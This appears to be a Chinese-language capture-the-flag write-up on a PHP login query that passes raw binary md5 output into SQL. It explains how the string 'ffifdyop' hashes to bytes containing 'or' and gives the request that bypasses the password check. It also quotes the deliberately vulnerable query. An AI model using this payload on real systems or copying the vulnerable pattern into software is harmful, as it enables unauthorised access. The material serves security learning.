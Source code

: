 > 不会写, cookie注入没学过, sqlmap不会用...

<br />

# 九. 据说哈希后的密码是不能产生注入的
## 源码:
```php
select * from user where userid=".intval($_GET['userid'])." and password='".md5($_GET['pwd'], true) ."'
```

* 对传入的userid使用`intval()`函数转化为数字
* password使用`md5()`进行转化.

> php中md5函数的参数含义:
> `password='".md5($_GET['pwd'], true)`
> 第二个可选。规定十六进制或二进制输出格式：
> TRUE  16 字符二进制格式
> FALSE  32 字符十六进制数 (默认)


## 注入

思路:
当md5后的hex转换成字符串后，如果包含 `'or'xxxx `这样的字符串，那整个sql变成
```sql
SELECT * FROM admin WHERE pass = ''or'xxxx
```
就可以注入了

从别人的writeup里面找到符合该要求的字符串`ffifdyop`
```
md5("ffifdyop")，276f722736c95d99e921722cf9ed621c

md5("ffifdyop",true)： 'or'6?]??!r,??b
```

构造:
```
?userid=1&pwd=ffifdyop
```
